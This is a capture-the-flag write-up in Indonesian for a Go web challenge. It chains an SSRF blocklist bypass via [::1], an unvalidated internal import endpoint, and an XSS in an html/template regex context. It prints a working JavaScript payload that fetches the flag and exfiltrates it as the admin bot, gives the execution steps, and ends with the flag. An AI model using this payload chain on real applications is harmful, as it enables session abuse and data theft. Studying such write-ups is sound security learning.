

# LinkVault - Web


## Deskripsi

LinkVault adalah platform link review berbasis Go 1.26.0. User bisa submit URL yg nanti masuk ke queue moderasi, trus admin bakal review tiap item lewat console moderasi.

Dari deskripsi udah ketauan ada 3 bug yg harus dirantai:
- parsing URL yg aneh di Go (bisa buat bypass restriction jaringan lokal)
- bisa nyisipin filter rule tanpa otorisasi
- XSS di template HTML gara2 escaping regex yg salah

## Review Source Code

Setelah extract source, ada beberapa file penting: `main.go`, `handlers.go`, `internal.go`, `store.go`, `bot.go`.

### 1. Blocklist SSRF yg bolong

Di `handlers.go` ada fungsi `guardedFetch` yg mau nge-block request ke jaringan lokal:

```go
var blockedHosts = map[string]bool{
    "admin.internal": true,
    "localhost":      true,
    "127.0.0.1":      true,
}
```

Tapi di `internal.go`, API internal (`/internal/import`) itu listen di DUA address, `127.0.0.1:8081` DAN `[::1]:8081`. Auth checknya juga nerima koneksi dari kedua alamat loopback itu. Masalahnya blocklist di atas cuma nyebut `127.0.0.1`, gak ada `::1` sama sekali.

Jadi kalo submit URL `http://[::1]:8081/...`, request itu lolos dari blocklist tapi tetep nyampe ke API internal yg harusnya cuma bisa diakses dari localhost.

### 2. Endpoint internal gak validasi input

Endpoint publik `/submit` validasi field `filter` pake regex ketat:

```go
var safeFilter = regexp.MustCompile(`^[a-zA-Z0-9 ._\-*+]{0,64}$`)
```

Gak boleh ada slash, titik koma, kurung, dll. Tapi `/internal/import` manggil `internalAddItem(title, filter)` langsung, TANPA validasi apapun. Jadi lewat SSRF di atas, kita bisa nyuntikin filter value sebebasnya.

### 3. Bug escaping di template moderasi

Di `moderation.html`:

```html
<script>if (true) { /{{.Filter}}/g.test("x") }</script>
```

`{{.Filter}}` ada di posisi literal regex (antara dua `/`). Tapi parser `html/template` Go gak bisa nentuin context itu regex atau division, jadi dia treat value-nya kayak string biasa - dibungkus pake tanda kutip. Hasilnya posisi `/` pertama tetep jadi pembuka regex literal, sedangkan isinya udah bukan di dalem string lagi.

Gw test langsung pake package `html/template` asli:

```
/{{.Filter}}/g.test("x")
```

jadi:

```
/"PAYLOAD"/g.test("x")
```

Kalo PAYLOAD-nya diawalin `/` trus `;`, regex literalnya ketutup cepet, abis itu statement JS kita jalan beneran.

## Bikin Payload

Bot admin (`bot.go`) tiap ~25 detik login ke `/moderation` pake cookie session asli, dan cookie `session` itu gak ada flag `HttpOnly`. Jadi exfil bisa langsung lewat fitur `/api/share` di app yg sama, gak perlu server eksternal.

Payload JS-nya:

```js
x/;fetch('/flag').then(function(r){return r.text()}).then(function(f){fetch('/api/share?to=USERNAME'+String.fromCharCode(38)+'d='+encodeURIComponent(f))});}//
```

Beberapa catatan dari trial:
- pake `function(){}` bukan arrow function, soalnya karakter `>` dari `=>` bakal ke-escape jadi `\u003e` yg gak valid kalo udah di luar context string
- `&` diganti `String.fromCharCode(38)` krn alasan yg sama
- diakhirin `}//` biar block `if(true){` ketutup rapi trus sisa text template (`"/g.test("x") }`) ke-comment abis

Validasi hasil render + parsing JS-nya pake Node biar yakin gak ada syntax error sebelum dipake di server beneran.

## Eksekusi

1. Register akun, misal `pwned`
2. POST ke `/submit` dengan `url` nunjuk ke:
   ```
   http://[::1]:8081/internal/import?filter=<payload di atas, url-encoded>&title=pwn
   ```
   field `filter` di form cuma formalitas biar lolos `safeFilter`, isinya bebas asal valid
3. Tunggu siklus bot moderasi jalan
4. Bot kebuka `/moderation`, item kita ke-render, payload jalan sbg admin
5. Flag ke-fetch trus ke-share ke inbox `pwned`
6. Login sbg `pwned`, cek `/reports`, flag muncul

## Flag

```
NFX{L1nkV4ult_cve_26_3p1c_!}
```


